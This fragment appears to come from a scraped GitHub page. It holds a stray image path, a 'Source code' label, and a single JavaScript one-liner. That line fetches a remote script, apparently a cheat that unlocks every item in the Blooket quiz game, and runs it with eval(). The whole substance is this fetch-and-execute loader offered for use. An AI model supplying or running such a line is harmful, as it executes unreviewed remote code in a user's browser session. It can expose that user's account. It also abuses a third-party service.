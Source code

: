 
fetch("https://raw.githubusercontent.com/rebound37/BlooketUnlockAllPerm/main/unlockAllBlooksForever.js").then((res) => res.text().then((t) => eval(t)))
